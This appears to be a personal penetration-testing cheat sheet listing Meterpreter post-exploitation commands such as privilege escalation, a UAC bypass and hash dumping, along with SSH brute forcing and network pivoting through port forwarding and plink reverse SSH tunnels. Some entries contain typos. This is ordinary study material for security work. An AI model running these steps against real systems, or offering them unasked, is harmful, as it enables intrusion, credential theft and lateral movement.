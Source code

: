 		Meterpreter:
			search meterpreter - search for meterpreter payloads
			sysinfo - system information
			ifconfig - ...
			route
			getuid
			getsystem
				try - 
					post/windows/gather/win_privs
					exploit/windows/local/bypassuac
			post/windows/gather/hashdump - dump hashes
			download
			upload
			migrate:
				ps -U SYSTEM
				migrate to svchost, winlogon etc.
			
			Brute SSH:
				use auxiliary/scanner/ssh/ssh_login
	
	Pivotting:

		meterpreter:
			portfwd add -l <attacker port> -p <victim port> -r <victim ip>
			portfwd add -l 3306 -p 3306 -r 192.168.222
			run autorute -s <IP>

		ssh <gateway> -R <remote port to bind>:<local host>:<local port>


		Windows:
			route ADD 192.168.35.0 MASK 255.255.255.0 192.168.0.2
			plink(Reverse SSH):
				/usr/share/windows-binaries/plink.exe
				plink.exe -N -L 192.168.92.138:8000:192.168.92.128:8000 root@192.168.92.128
				plink.exe -N -L 192.168.92.138:8000:192.168.92.128:22 root@192.168.92.128
				On Target: plink.exe ip -P 22 -C -N -D 1080 -l KALIUSER -pw PASS

			

		Linux:
			ip route show/list
			route add default gw 192.168.1.254 eth0 (if route command present)
			ip route add default gw 192.168.1.254 eth0 (if ip command present)
			up route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.254 (?)

		**ip route add <ROUTETO>/24 via <ROUTEFROM>(Gateway)**

    File Search:
	dir /s /b <filename>
